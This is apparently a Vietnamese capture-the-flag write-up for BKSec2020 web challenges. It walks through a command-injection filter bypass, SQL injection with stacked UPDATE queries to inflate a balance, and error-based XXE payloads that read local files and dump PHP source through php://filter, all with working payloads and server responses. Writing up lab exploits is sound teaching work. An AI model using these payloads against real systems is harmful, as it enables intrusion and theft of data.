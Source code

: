 # BKSec2020-CTF

#         Hacked (Author: Q5Ca)
- Bài này thì khá đơn giản chỉ chúng ta chỉ cần tập trung vào file robots.txt sau đó ta sẽ tháy file sitemap.xml => nhận dc `http://52.163.126.205:24033/shell1337/` ok v là ta có thể chạy shell trên local , chỉ việc get the flag!. `BKSec{robots.txt_is_S0_interesting}`.
#         Admin watch tower (Author: Sudo)
- Mới vào trang web ta  thấy `total 12 drwxrwxr-x 2 1000 1000 4096 Mar 30 17:25 . drwxr-xr-x 1 root root 4096 Feb 26 11:59 .. -rw-rw-r-- 1 1000 1000 777 Mar 30 17:25 index.php`
  + Tôi đoán có thể control bằng get request và đầu ra của source code là `system($_GET)`, thử đầu tiên với parameter là `?cmd=ls` responts : `Hack con keci ` kèm theo video LỚN RỒI! tiếp tục thử các chữ cái đều bị chặn , xong thử tới các kí tự đặc biệt thì chỉ có 1 dấu `/` là sài được , nhưng kí tự tiếp theo sau dấu `/`chỉ cho phép các kí tự đặc biệt . 
  + V cũng không sao , thử dùng kí tự nối 2 câu lệnh trên linux là `;` với payload :`?cmd=/;ls ` xem có j hot. BOOM. respont trả về `index.php` 
  + V là có thể get the flag rồi ! payload hoàn chỉnh :`?cmd=/;cd ../../../../ ; cd etc ;cat h3r3_is_ur_FlAg.txt` flag:`BKSec{Ngh3___nh4c____DSK_____d1____kh0n9___t4o___d4m___ch3t___d4y}`.
 #        Shitcoin(Author: Q5Ca)
 -  Bài này khá thú vi đối với tôi , tuy làm ko giống ý đồ của tác giả, nhưng sau khi lấy được flag thì được tác giả có chỉ hướng đi , tôi cũng hiểu được phần nào tầm quan trọng của bài này . OK bây giờ tôi sẽ giải bài này theo cách của tôi!
 -  Bài này chỉ là gửi tiền cho người khác kèm theo là 1 message . tôi suy luận 2 trường hợp
    + 1 là tìm user có tiền trong database.
    + 2 là tự insert tiền cho mình (có khả quan hơn, và tôi chọn làm trước) .
 -  Sau khoảng thời gian lay hoay tìm chổ inject thì tôi cũng tìm được 1 chổ là message.
    + Message là chổ sẻ inject dữ liệu vào database , và sẽ select ra ở phia người nhận . Do đó ta có thể dùng inject select query để lấy các dữ liệu như tên bảng tên cột và value của các cột.  
    + Nhưng do tính cẩu thả , tôi fuzz hoa loa ,tuy có thử '||' nhưng lúc đầu không được nên tôi bỏ qua, và tôi đã dùng payload quá  chuối là `0"+ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))+"` thì nó sẽ chuyển các chữ cái thành số  hệ Dec và gửi cho ngừi nhận ,ta chỉ việc decode ra được các chữ và cứ thế theo cách này là ra được các tên bảng và các cột ``` ledger -> id,amount,sender_id,receiver_id,message   và   users -> id,username,password ``` . Nếu muốn lấy values của các cột thì dùng `0"+ascii(substr((select id from users limit 1 OFFSET 0),1,1))+"`.
    + Tiếp đó tôi thử dùng multi insert nhưng KHÔNG KHẢ QUAN payload `0"),("1000","OuSHJMNMVEXrvpYeU9OXY/Qk5V6eyxW7Le3QhZnUNySf6A6PoV36ySur86hZ1Fkx","OuSHJMNMVEXrvpYeU9OXY/Qk5V6eyxW7Le3QhZnUNySf6A6PoV36ySur86hZ1Fkx","HAH`  , với chuỗi dài nhất đó là id của ngừoi gửi và ngừơi nhận.
    + Quyết định chơi lun stacked query . update tiền cho mình ban đầu tôi dùng với payload `a"); UPDATE ledger SET amount=1000000-- -` mình sẽ bị -1000000 và người nhận sẽ dc 1000000 .Cứ chuyển qua chuyển lại thì sẽ đc tiền r mua flag thôi `BKSec{now_u_know_RELATIONAL_database}` 
 -  Ngoài ra các bạn có thể sử dụng payload :`"||(SELECT VERSION())||" ` để tìm version cũng như thây đổi 1 chút trong payload để tim các bảng và các cột và values cột nhanh nhất .  
 #          XML Suck(Author: Q5Ca)
 -  Bài này là mình solve cuối cùng , vì mình chưa rành về `XXE` nên việc làm nó cũng hơi khó khăn với mình . 
  - Tác giả cho source thì mình biết flag ở source và cái $user ko dc show ra ngoài nên ko thể dùng được` xxe to retrieve files`.
  - Còn lại 2 kĩ thuật blind và error based .
    + Dùng Blind thì bị chặn stream http. 
    + Còn lại error base . ok tiến hành thử file DTD local để exploit , nhưng không có file dtd nào ở local cả. 
    + Lên gg đọc tài liệu và tìm payload thì phát hiện 1 payload ko cần dtd ở local . 
 payload : 
 ```
 <?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///flag">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<message>a</message>
 ```
 - Ngon rồi ! thử rap vào xem chạy được không nhé!
 payload:
 ```
     <?xml version="1.0" encoding="UTF-8"?> 
    <!DOCTYPE message[ 
      <!ELEMENT message ANY >
      <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "index.php">
      <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %NUMBER;
    ]> 
    <creds>
    <user></user>
    <pass></pass>
    </creds>
 ```
 respont :
 ```
 <br />
<b>Warning</b>:  DOMDocument::loadXML(): Invalid URI: file:///nonexistent/&lt;?php 
    error_reporting(E_ALL);
    ini_set( in Entity, line: 3 in <b>/var/www/html/index.php</b> on line <b>9</b><br />
<br />
<b>Warning</b>:  DOMDocument::loadXML(): xmlParseEntityDecl: entity error not terminated in Entity, line: 3 in <b>/var/www/html/index.php</b> on line <b>9</b><br />
<br />
<b>Warning</b>:  simplexml_import_dom(): Invalid Nodetype to import in <b>/var/www/html/index.php</b> on line <b>10</b><br />
<br />
<b>Notice</b>:  Trying to get property of non-object in <b>/var/www/html/index.php</b> on line <b>11</b><br />
<br />
<b>Notice</b>:  Trying to get property of non-object in <b>/var/www/html/index.php</b> on line <b>12</b><br />
You have logged in as user !!!
 ```
 - Vậy là thành công r , h chỉ việc dùng wrapper php://filter là móc tất tần tật source code ra !
 payload ``
 và 
 ```
 <?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=index.php">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<creds>
<user></user>
<pass></pass>
</creds>
 ```
 respont : XZBBTwIxEIXv/ophY7I1gYAHLyIYyHIwLnCQg56asjuUxm7btLsKUf+703U3IfbSTt+br9P38OiODq6AFnpvPfforK+VkWzFF3l+M201ZRQPWLO0VMFpceatOaRDuP3v0FZ2Kq/EiWs05LqbTMjXGrXanyrNCST2GjmaWtVnrq0o0QM7CB2wQ16T76A0wgzixiXWvLCmppbAUpr7fjxWxjV12jeUtiKzwU/ItuvMFk1FXnahjubxodd1znr4EPKnJV3wzXa12cF3X2a7LN8usr638FgGYgdVOY3xA3SgoDhBWST3xibQN2Zdw2gey05xIoQLJZZ/ChZHC8mbbeAoPhAoQIklBQoiQIsbDAZJBzloIQmSLp9fsPiKg6rAk9WJQgmK8lwL/964XBjZCInJTzq9+gU= . 
 Chỉ việc decode là ra flag :BKSec{XML_is_"ExtensibleMarkupLanguage"}
 tool: https://www.samltool.com/decode.php
